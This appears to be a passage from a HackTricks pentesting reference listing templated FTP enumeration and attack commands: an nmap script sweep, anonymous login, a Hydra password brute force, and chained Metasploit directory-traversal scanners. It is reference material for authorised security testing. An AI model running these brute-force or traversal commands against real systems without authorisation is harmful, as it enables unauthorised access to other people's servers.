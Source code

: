 ```
Description: Grab FTP Certificate if existing
Command: openssl s_client -connect {IP}:21 -starttls ftp

Entry_4:
Name: nmap ftp
Description: Anon login and bounce FTP checks are performed
Command: nmap --script ftp-* -p 21 {IP}

Entry_5:
Name: Browser Connection
Description: Connect with Browser
Note: ftp://anonymous:anonymous@{IP}

Entry_6:
Name: Hydra Brute Force
Description: Need Username
Command: hydra -t 1 -l {Username} -P {Big_Passwordlist} -vV {IP} ftp

Entry_7:
Name: consolesless mfs enumeration ftp
Description: FTP enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/ftp/anonymous; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/ftp_version; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/bison_ftp_traversal; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/colorado_ftp_traversal; set RHOSTS {IP}; set RPORT 21; run; exit' &&  msfconsole -q -x 'use auxiliary/scanner/ftp/titanftp_xcrc_traversal; set RHOSTS {IP}; set RPORT 21; run; exit'
```

<details><summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
